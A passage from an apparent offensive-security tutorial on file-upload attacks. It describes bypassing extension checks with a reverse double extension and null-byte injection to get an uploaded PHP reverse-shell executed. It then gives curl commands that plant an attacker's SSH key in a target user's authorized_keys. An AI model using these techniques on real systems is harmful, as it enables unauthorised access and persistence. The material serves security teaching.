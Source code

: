 In case we can use the **reverse double extension** method, the file will be uploaded but it might not be able to execute. Instead it can be served as a direct download (Figure 11.1) or as a page (Figure 11.2).

<figure><img src="../.gitbook/assets/kD2A9vgXUo.png" alt=""><figcaption><p>Figure 11: The webshell script treated as a direct download and a page.</p></figcaption></figure>

This can be potentially bypassed by a **null byte injection**. The null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 13), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><img src="../.gitbook/assets/chrome_9ehldnPHHT.png" alt=""><figcaption><p>Figure 13: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### SSH Keys

{% code overflow="wrap" %}
```bash
# Generate SSH key pair
$ ssh-keygen -t rsa -f ./id_rsa -N ''
​
# Upload it to the target directory
$ curl -X POST http://<target-IP>/file-upload -H "Content-Type: application/x-pem-file" -F file=@id_rsa.pub -F filename=/home/bob/.ssh/authorized_keys --proxy 127.0.0.1:8080
```
{% endcode %}

